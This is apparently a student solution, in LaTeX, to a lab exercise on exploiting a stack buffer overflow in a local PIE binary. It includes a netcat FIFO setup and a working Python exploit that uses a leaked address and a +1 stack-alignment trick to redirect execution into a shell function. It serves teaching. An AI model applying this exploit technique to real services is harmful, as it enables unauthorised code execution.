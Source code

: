 \documentclass[a4paper, 10pt]{article}
\begin{document}
\begin{solution}
	\noindent \textbf{Recon.} \texttt{victim-2020} is an ELF 64-bit \emph{PIE} binary. \texttt{objdump}
	gives the \emph{offsets} \texttt{shell@0x11c5}, \texttt{vulnerable@0x130c}, but because it is PIE the
	runtime addresses are randomised. That does not matter here: \texttt{main} \textbf{leaks} the real
	addresses (including \texttt{\&shell}) on startup, so the PIE/ASLR protection of the code segment is
	defeated by the program's own output. The overflow offset is again \textbf{40} (buf[20] + padding +
	saved rbp), measured with \texttt{gdb}.

	\myspace

	\noindent \textbf{Emulating the service.} The OpenBSD \texttt{netcat} on Ubuntu 22.04 has no
	\texttt{-e} option, so instead of \texttt{nc -l -p 60000 -e victim} I wire stdin/stdout with a FIFO
	(and send stderr onto the socket so the client can read the leaked \texttt{\&shell}):

\begin{codingbox*}[numbers=none, xleftmargin=0pt, belowskip=6pt, basicstyle=\ttfamily\footnotesize\color{editortext}]
FIFO=$(mktemp -u); mkfifo "$FIFO"
nc -l 60000 < "$FIFO" | ./victim-2020 > "$FIFO" 2>&1
\end{codingbox*}

	\noindent \textbf{The one modern-glibc subtlety.} Returning straight to \texttt{\&shell} \emph{does}
	divert control into \texttt{shell()} (confirmed with a \texttt{gdb} breakpoint), but it then crashes
	inside glibc's \texttt{do\_system} on a \texttt{movaps \%xmm1,(\%rsp)} instruction. That instruction
	requires a 16-byte-aligned stack, and a single \texttt{ret} lands with \texttt{rsp \% 16 == 0} (the
	ABI wants 8). A normal re-alignment ``\texttt{ret} gadget'' cannot be chained here because
	\texttt{strcpy} stops at the NUL bytes every code address contains. The fix is to jump to
	\texttt{\&shell + 1}, one byte past \texttt{push \%rbp}: skipping that push flips the stack parity so
	\texttt{do\_system} is aligned and \texttt{system()} runs. (On the original 2016/2020 glibc the
	handout targeted, plain \texttt{\&shell} already worked.)

\begin{codingbox}[language=python]
#!/usr/bin/python3
import telnetlib, re, time, sys
tn = telnetlib.Telnet("127.0.0.1", 60000)
time.sleep(0.4)
banner = tn.read_very_eager()                       # read the leaked addresses
shell  = int(re.search(rb"&shell = (0x[0-9a-f]+)", banner).group(1), 16)
target = shell + 1                                  # +1 skips "push %
buff   = 40 * b"x"
addr   = bytearray(target.to_bytes(6, "little"))    # 6 low bytes; strcpy adds NUL
buff  += addr
tn.write(buff + b"\n")
time.sleep(1.5); sys.stdout.write(tn.read_very_eager().decode(errors="replace"))
tn.interact()
\end{codingbox}


\end{solution}
\end{document}
